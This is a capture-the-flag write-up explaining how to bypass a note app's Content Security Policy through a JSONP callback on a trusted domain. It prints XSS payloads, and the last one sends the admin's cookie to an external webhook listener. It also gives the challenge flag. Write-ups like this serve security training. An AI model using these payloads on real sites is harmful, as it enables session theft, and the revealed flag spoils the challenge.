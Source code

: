 ```yaml
---
title: '[RED CSAW CTF] NevernoteCSP'
published: true
author: sAINT_Barber
---
```


First we are greeted with the challenge description

![alt text][image1]

We will be performing some sort of cookie stealing, and we also understand from the title that it will be pointing to a type of CSP bypass.

After creating an account and clicking around on the site the only thing you could actually do was create and upload notes.

![alt text][image2]

So, we can edit the note title and give it some content. And then we can report the post to an admin.
By this one can assume we will be doing some XSS with a cookie stealing payload to steal the admins cookie and get the flag!

The only area that does not sanitize the users input is the content area. As you can see below i have changed the content style to bold with the `<b>` tag

![alt][image3]

Now lets add a script with a simple alert!
`<script>alert('Haircuts')</script>`

![alt][image4]

Nothing came up, but we did get a warning in the dev-tools console tab

![alt][image5]

Content Security Policy is blocking the inline script, from the name 'script-src' it only accepts javascript from a source file. From there we can view the CSP in the network tab by clicking on a request and checking the headers

![alt][image6]

We can copy the policy into this site to check its' evaluation:
https://csp-evaluator.withgoogle.com/

We can see that the
`script-src 'self' cdn.jsdelivr.net *.ngs.ru` trusts domains 2 that are known to bypass CSP

![alt][image7]

After some googling i found from the cdn.jsdeliver.net domain a callback function that reflects whatever javascript you equal it as.

`https://passport.ngs.ru/ajax/check?callback=alert('Haircuts')`

so now our payload looks like this:<br>
`<script src="https://passport.ngs.ru/ajax/check?callback=alert('Haircuts')"></script>`

Lets place this in the content part of a new note and see if we bypass the CSP

And voila! We bypassed the CSP. Now we can move on to getting the admins cookie!

![alt][image8]

In general what we need to do now is report our note to the admin, wait until he/she opens our note it should redirect him/her to a malicious site that we are listening on so we can see his/her cookies in the request header.

I will be using a site called Webhook (https://webhook.site) as my listener.

We can use this javascript code to redirect the admin to our site.
`window.location.replace('malicioussite.something')`<br>
Our payload now looks like this<br>

`<script src="https://passport.ngs.ru/ajax/check?callback=window.location.replace('https://webhook.site/fcaa41ba-87af-467e-9b5f-8437a8b3a762')"></script>`

Now all we need to do is add this payload then report to the admin, but if you're following along you will notice that as soon as we click on this note it will automatically redirect us to the webhooks listener (Thats what we want), and wont allow us to click the *report to admin link*. We can see the 'href' request makes: /notes/report/{note_id}, all we need to do is write down our note id and make a simple get request with that id.

Looking at the webhooks site we can see our admins request!

![alt][image9]

Perfect! Now all we need to do is use the document.cookie javascript method to print out the cookie, what i did is add the cookie to the query of the get request the admin performs on our malicious site e.g malicioussite.com/?name=sAINT_barber,

Now our payload looks like this:<br>
`<script src="https://passport.ngs.ru/ajax/check?callback=window.location.replace('https://webhook.site/fcaa41ba-87af-467e-9b5f-8437a8b3a762/?elaToCookie='.concat(document.cookie))"></script>`

*Note: I used the .concat() function to concatenate the document.cookie onto the query string, if you want to use the '+' sign then you will have to url encode it because the '+' in the url translates to a space.*

Now lets see if it works!

![alt][image10]

Boom! We can see in the Query strings our flag!

Note: If the cookie flag had the httpOnly flag then it would not print out with the document.cookie method.

A big Thank you to styx00! Not only did he help me complete the challenge, but also helped me understand the procedure of bypassing the CSP and Reflected XSS.

Flag: `flag{go_to_r/ProgrammerHumor_for_a_good_time}`



[image1]: /assets/2019-10-01-RED-CSAW19-NevernoteCSP/images/image1.png
[image2]: /assets/2019-10-01-RED-CSAW19-NevernoteCSP/images/image2.png
[image3]: /assets/2019-10-01-RED-CSAW19-NevernoteCSP/images/image3.png
[image4]: /assets/2019-10-01-RED-CSAW19-NevernoteCSP/images/image4.png
[image5]: /assets/2019-10-01-RED-CSAW19-NevernoteCSP/images/image5.png
[image6]: /assets/2019-10-01-RED-CSAW19-NevernoteCSP/images/image6.png
[image7]: /assets/2019-10-01-RED-CSAW19-NevernoteCSP/images/image7.png
[image8]: /assets/2019-10-01-RED-CSAW19-NevernoteCSP/images/image8.png
[image9]: /assets/2019-10-01-RED-CSAW19-NevernoteCSP/images/image9.png
[image10]: /assets/2019-10-01-RED-CSAW19-NevernoteCSP/images/image10.png